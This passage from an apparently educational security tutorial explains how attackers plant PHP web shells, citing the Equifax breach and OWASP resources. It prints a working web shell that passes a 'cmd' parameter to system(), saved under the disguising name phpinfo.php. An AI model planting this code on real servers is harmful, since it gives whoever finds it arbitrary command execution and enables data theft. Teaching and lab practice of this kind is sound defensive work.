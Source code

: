 In our example, to install a web shell we add a bad `.php` file inside`/var/www/html` Some reasons this can happen are:

*   the web application has a vulnerable upload API
*   the web application has a critical RCE vulnerability
*   the attacker has existing access that can modify the contents of the web root folder

If the attacker can upload malicious files that run as php, then he can get remote access to the machine.

One famous example of this is the [2017 Equifax Data Breach](https://republicans-oversight.house.gov/wp-content/uploads/2018/12/Equifax-Report.pdf). You can read the report, but here’s my TLDR: 

> The web server was running Apache Struts containing a critical RCE vulnerability. Attackers used this RCE to drop web shells which they used to gain access to sensitive data and exfiltrate the data. Around 30 different web shells were used in the breach.

See the following resources:

*   [https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
*   [https://portswigger.net/web-security/os-command-injection](https://portswigger.net/web-security/os-command-injection)

#### 1.2 Installing your own web shells

_Note: If you want to try this out you can follow the setup instructions in the appendix A00._

Assuming we already have RCE, we add a file `phpinfo.php` that will contain our web shell.

```
vi /var/www/html/phpinfo.php
```

Choose any of the [examples php web shells](https://github.com/JohnTroony/php-webshells/tree/master/Collection). For example:

```html
<html>  
<body>  
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">  
<input type="TEXT" name="cmd" id="cmd" size="80">  
<input type="SUBMIT" value="Execute">  
</form>  
<pre>  
<?php  
    if(isset($_GET['cmd']))  
    {  
        system($_GET['cmd']);  
    }  
?>  
</pre>
```

Now anyone with access to `http://x.x.x.x/phpinfo.php` would be able to access the web shell and run arbitrary commands.

![](https://cdn-images-1.medium.com/max/800/1*IFtn1HJNUAwxFMR26-J-_g.png)
